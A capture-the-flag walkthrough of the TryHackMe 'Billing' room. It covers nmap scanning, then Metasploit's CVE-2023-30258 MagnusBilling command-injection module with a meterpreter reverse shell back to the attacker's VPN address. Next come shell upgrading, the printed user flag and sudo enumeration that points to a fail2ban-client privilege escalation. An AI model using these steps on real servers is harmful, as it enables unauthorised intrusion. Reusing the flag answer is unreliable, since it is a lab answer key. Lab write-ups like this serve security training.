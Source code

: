 
# Billing
https://tryhackme.com/room/billing

## Questions

> What is user.txt?  

> What is root.txt?  

This room involves using Metasploit.  

## 1. Enumerate Ports

```bash
└─$ nmap -A -sC -Pn 10.201.121.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 13:01 PDT
Nmap scan report for 10.201.121.205
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 3c:17:9e:70:e0:9e:e1:e7:57:88:3f:57:61:25:9e:e0 (ECDSA)
|_  256 aa:d8:a4:7f:74:fc:46:40:c7:44:e7:cf:29:48:cd:5f (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.201.121.205/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   163.17 ms 10.23.0.1
2   ... 3
4   232.41 ms 10.201.121.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.95 seconds
```

> http://MACHINE_IP:80 redirects to a login page at http://MACHINE_IP/mbilling

## 2. Metasploit

We will be following [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258) to exploit a command injection vulnerability in 
MagnusBilling application versions 6.x and 7.x. We can use [Metasploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/) 
for this.

> `RHOST`: the remote target host address  

> `LHOST`: the listen address. __Important__ This may need to be set to your `tun0` IP address or similar, if you are connecting
> to your target over a VPN  

```bash
└─$ msfconsole -q
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: so
                                         cks5, socks5h, sapni, http, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                         ing-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the loca
                                       l machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generated if
                                         left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS MACHINE_IP
RHOSTS => MACHINE_IP
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST VPN_IP
LHOST => VPN_IP
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
```

## 3. Create a Shell

```bash
meterpreter > shell
Process 2578 created.
Channel 0 created.
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
SHELL=/bin/bash script -q /dev/null
$ export TERM=xterm
```

## 4. Find the User Flag

```bash
$ find / -name user.txt -exec cat {} \; -quit 2>/dev/null
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

## 5. Escalate Privileges

We always start with `sudo -l` when we get access to a user account.

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-201-121-205:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-201-121-205:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

User `asterisk` can run `fail2ban-client` with sudo privileges.
We can [exploit](https://juggernaut-sec.com/fail2ban-lpe/) that.
